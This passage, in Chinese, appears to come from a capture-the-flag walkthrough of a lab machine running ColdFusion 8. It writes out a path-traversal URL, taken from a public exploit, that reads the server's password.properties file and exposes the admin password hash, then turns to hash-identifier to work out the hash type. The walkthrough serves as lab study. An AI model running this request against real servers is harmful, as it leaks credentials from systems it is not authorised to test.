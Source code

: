 [https://www.exploit-db.com/exploits/14641](https://www.exploit-db.com/exploits/14641)

我看了一下对漏洞利用的描述:

![Screenshot-2020-01-28-at-23.01.57](img/5e6bbe2c4a1f991e10c44e8a4f444f7c.png)

并将**服务器**位替换为 **10.10.10.11:8500**

```
http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

我可以看到散列密码现在出现在输入之间的页面上:

![Screenshot-2020-01-28-at-23.03.01](img/275d56f0a0ec1dce4405ede80d8e126e.png)

我使用**散列标识符**来标识可能的散列。hash-identifier 是一款软件，用于识别不同类型的用于加密数据尤其是密码的哈希。你可以在这里找到更多[的信息。](https://tools.kali.org/password-attacks/hash-identifier)

我用以下命令启动 hash-identifier:

```
hash-identifier
```

复制/粘贴我之前得到的散列密码:
